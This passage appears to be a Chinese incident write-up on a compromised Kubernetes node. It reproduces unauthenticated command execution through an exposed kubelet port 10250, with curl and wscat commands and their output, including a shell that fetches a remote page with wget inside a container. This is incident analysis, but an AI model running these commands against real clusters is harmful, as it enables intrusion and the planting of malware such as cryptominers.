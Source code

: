 确定就是[Analysis of a Kubernetes hack — Backdooring through kubelet][2]中所说的问题了。

用telnet探测了下，中招机器的10250端口和10255端口被暴露出去了，绑了公网IP的缘故。。。

## 复现

用curl直接连接kublet的10250端口

	curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://kube-node-here:10250/exec/<namespace>/<podname>/<container-name>?command=touch&command=hello_world&input=1&output=1&tty=1"

将POST内容替换为对应的空间和名称，从返回结果中得到websocket地址：

	$ curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://10.39.1.67:10250/exec/kube-system/calico-node-5z4zh/calico-node?command=touch&command=/tmp/hello_world&input=1&output=1&tty=1"
	...
	< HTTP/2 302
	< location: /cri/exec/PfWkLulG
	< content-type: text/plain; charset=utf-8
	< content-length: 0
	< date: Tue, 13 Mar 2018 19:21:00 GMT
	...

然后用wscat直接连接：

	$ npm install -g wscat
	$ wscat -c "https://10.39.1.67:10250/cri/exec/PfWkLulG" --no-check                                                                                                                     
	connected (press CTRL+C to quit)
	<
	<
	disconnected

到目标容器查看，发现hello_world文件被创建。

在尝试一下下载文件：

	$ curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://10.39.1.67:10250/exec/kube-system/calico-node-5z4zh/calico-node?command=/bin/sh&command=-c&command=wget+www.baidu.com&input=1&output=1&tty=1"
	...
	< Location: /cri/exec/gkIeqSUP
	...
	
	$ wscat -c "https://10.39.1.67:10250/cri/exec/gkIeqSUP" --no-check
	connected (press CTRL+C to quit)
	<
	<
	< Connecting to www.baidu.com (61.135.169.125:80)
	index.html           100% |*******************************|  2381   0:00:00 ETA

	disconnected (code: 1000)

可以看到，kubelet漏洞导致不需要任何认证就可以到容器中执行命令，通过这种方式可以在任意一个容器中安装恶意程序。

## 参考


[1]: https://github.com/docker/for-linux/issues/324  "/tmp/docker -c /tmp/k.conf process use 100% CPU"
[2]: https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c  "Analysis of a Kubernetes hack — Backdooring through kubelet" 
[3]: https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file "Dump a linux process's memory to file"
[4]: https://github.com/xmrig/xmrig "XMRig is a high performance Monero (XMR) CPU miner"